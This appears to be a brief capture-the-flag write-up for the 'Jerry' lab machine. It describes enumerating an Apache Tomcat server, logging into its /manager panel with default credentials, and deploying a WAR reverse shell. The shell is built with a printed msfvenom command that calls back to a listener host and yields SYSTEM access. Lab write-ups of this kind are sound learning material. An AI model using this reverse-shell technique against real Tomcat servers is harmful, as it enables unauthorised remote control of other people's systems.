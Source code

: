 # Jerry

### Reconnaissance

- port 8080/tcp HTTP Apache Tomcat/Coyote JSP engine 1.1

Directory enumeration with gobuster shows an admin panel /manager with a login input.

Bad logins lead to a page disclosing the actual login information, a default credential pair for Tomcat

### Exploitation

Access to the /manager panel allows us to upload a .war reverse shell

`msfvenom java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f war -o shell.war`

Upload the shell and deploy it, then navigate to the new endpoint with a listener ready to gain a reverse 
shell

### Privilege Escalation

The server is running as SYSTEM so we have root access 
